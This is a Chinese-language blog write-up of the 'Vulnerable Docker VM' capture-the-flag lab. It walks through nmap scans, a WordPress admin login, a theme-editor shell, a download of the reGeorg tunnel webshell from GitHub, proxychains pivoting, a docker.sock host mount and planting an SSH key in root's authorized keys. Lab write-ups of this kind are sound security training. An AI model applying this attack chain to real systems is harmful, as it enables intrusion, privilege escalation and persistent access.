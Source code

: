 ```yaml
---
id: 775
layout: post
title: 'Vulnerable Docker VM WriteUp'
date: 2017-09-27 04:46:07
author: virusdefender
tags: 安全
---
```


半夜发烧睡不着，看到一个有意思的类CTF的题目，就看了下。

https://www.notsosecure.com/vulnerable-docker-vm/ 可以下载一个虚拟机镜像，导入后开机会提示虚拟机的IP。先使用 nmap 扫描一下

```
Nmap scan report for 192.168.30.171
Host is up (0.00057s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
```

开启了 ssh，但是没有密码无法登陆，8000 端口是一个 WordPress，有一些文章和 robots.txt ，大致翻了下，没有什么有用的信息。

用 wpscan 扫了一下，发现有个注入，就是我上一篇文章提到的，并没什么用，没有安装插件，但是有一个叫 bob 的用户。

```
Identified the following 1 user/s:
+----+-------+-----------------+
| Id | Login | Name            |
+----+-------+-----------------+
| 1  | bob   | bob – NotSoEasy |
+----+-------+-----------------+
```

然后看了眼 hint，用户的密码是 `Welcome1`（其实应该用字典跑的），就这样进入了后台，在草稿箱中发现了第一个 flag。

![](https://storage.virusdefender.net/blog/images/775/1.jpg)

如果可以进入 wp 的后台，那么拿 shell 就很简单了，使用在线编辑功能就可以。

![](https://storage.virusdefender.net/blog/images/775/2.jpg)

连上 shell 后收集了下面的一些信息

 - 数据库

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'wordpress');
define('DB_PASSWORD', 'WordPressISBest');
define('DB_HOST', 'db:3306');
```

 - 系统是 `Linux 8f4bca8ef241 3.13.0-128-generic #177-Ubuntu SMP Tue Aug 8 11:40:23 UTC 2017 x86_64 GNU/Linux`，用户是 `www-data`，这么新的系统直接就可以放弃提权了，否则 Dirty COW 之类的洞还是超级好用的，可以参考 [Tunnel Manager - From RCE to Docker Escape](https://ricterz.me/posts/Tunnel%20Manager%20-%20From%20RCE%20to%20Docker%20Escape)

 ![](https://storage.virusdefender.net/blog/images/775/3.jpg)


 - `ip addr`

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default 
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.18.0.2/16 scope global eth0
       valid_lft forever preferred_lft forever
```

![](https://storage.virusdefender.net/blog/images/775/4.jpg)

想起题目是`Vulnerable Docker VM`，猜想应该就是 `docker.sock` 或者 HTTP API 未授权访问之类的问题，不过翻了下没找到什么。

但是看机器的 IP，感觉这个虚拟机里面应该还有个 docker network 的内网，简单的 ping 了下，发现至少是存在 `172.18.0.1-4` 的，这时候需要做一下内网穿透，这样方便在我的电脑上操作，否则 shell 里面缺少很多工具和依赖，比较麻烦。

我使用的是 [reGeorg](https://github.com/sensepost/reGeorg)

```
curl -o tunnel.php https://raw.githubusercontent.com/sensepost/reGeorg/master/tunnel.nosocket.php
```

浏览器访问了一下，显示 `Georg says, 'All seems fine'`。

本地电脑上运行 `python reGeorgSocksProxy.py -u http://192.168.30.171:8000/tunnel.php`

```
[INFO   ]  Log Level set to [INFO]
[INFO   ]  Starting socks server [127.0.0.1:8888], tunnel at [http://192.168.30.171:8000/tunnel.php]
[INFO   ]  Checking if Georg is ready
[INFO   ]  Georg says, 'All seems fine'
```

因为 reGeorg 提供的是 socks5 代理，所以需要本地使用 proxychains，具体配置不多说了。

`proxychains mysql -u wordpress -pWordPressISBest -h 172.18.0.4` 连接数据库，但是并没有找到什么 flag，然后继续扫内网，还是 nmap 那一堆命令加上 proxychains 前缀就好。然后发现一个 IP 有个奇怪的端口

```
Nmap scan report for 172.18.0.3
Host is up (0.0062s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8022/tcp open  oa-system
```

curl 看了下，貌似是一个网页，然后在设置了浏览器的 socks5 代理，就看到了，原来是一个网页版 ssh，而且这里面终于有了 `docker.sock`。

![](https://storage.virusdefender.net/blog/images/775/7.jpg)

接下来就是老套路了，可以参考 [Docker学习与remote API未授权访问分析和利用](http://www.silence.com.cn/docker%E5%AD%A6%E4%B9%A0%E4%B8%8Eremote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8/920)

而我是直接在里面安装了一个docker，这样就可以操作主机上的 docker 了。

![](https://storage.virusdefender.net/blog/images/775/8.jpg)

然后使用 volume 挂载主机上的所有文件到一个目录

```
docker run -it --rm -v /:/vol wordpress /bin/bash
```

这样就可以看到 flag3了

![](https://storage.virusdefender.net/blog/images/775/9.jpg)

然后在 `/vol/root/.ssh` 下面又把自己的公钥写了进入，这样就可以直接 ssh 到虚拟机了。

![](https://storage.virusdefender.net/blog/images/775/10.jpg)

至于 flag2 去哪了，官方的说法是他们忘了放了，233333

